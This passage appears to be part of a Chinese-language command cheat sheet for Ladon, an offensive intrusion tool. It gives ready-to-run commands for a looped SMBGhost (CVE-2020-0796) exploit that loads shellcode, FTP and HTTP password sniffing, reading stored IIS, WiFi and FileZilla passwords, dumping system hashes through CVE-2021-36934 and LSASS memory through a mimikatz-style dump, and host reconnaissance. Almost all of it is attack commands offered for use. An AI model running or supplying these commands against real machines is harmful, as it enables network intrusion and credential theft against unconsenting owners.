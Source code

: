 ```
##### 070 ForExec循环漏洞利用(Win10永恒之黑CVE-2020-0796,成功退出以免目标蓝屏)
Ladon ForExec "CVE-2020-0796-Exp -i 192.168.1.8 -p 445 -e --load-shellcode test.txt" 80 "Exploit finnished"


### 文件下载、文件传输
##### 071 HTTP下载
Ladon HttpDownLoad http://k8gege.org/Download/Ladon.rar

##### 072 Ftp下载
Ladon FtpDownLoad 127.0.0.1:21 admin admin test.exe


### 加密解密(HEX/Base64)
##### 073 Hex加密解密
Ladon 123456 EnHex
Ladon 313233343536 DeHex

##### 074 Base64加密解密
Ladon 123456 EnBase64
Ladon MTIzNDU2 DeBase64


### 网络嗅探
##### 075 Ftp密码嗅探
Ladon FtpSniffer 192.168.1.5

##### 076 HTTP密码嗅探
Ladon HTTPSniffer 192.168.1.5

##### 077 网络嗅探
Ladon Sniffer

### 密码读取
##### 078 读取IIS站点密码、网站路径
Ladon IISpwd

##### 079 读取连接过的WIFI密码
Ladon WifiPwd

##### 080 读取FileZilla FTP密码
Ladon FileZillaPwd

##### 081 读取系统Hash、VPN密码、DPAPI-Key
Ladon CVE-2021-36934

##### 082 DumpLsass内存密码(mimikatz明文) 限9.1.1版本之前
Ladon DumpLsass


### 信息收集
##### 083 获取本机内网IP与外网IP

Ladon GetIP
##### 084 获取PCname GUID CPUID DiskID Mac地址
Ladon GetID

##### 085 查看用户最近访问文件
Ladon Recent

##### 086 USB使用记录查看(USB名称、USB标记、路径信息)
Ladon UsbLog

```
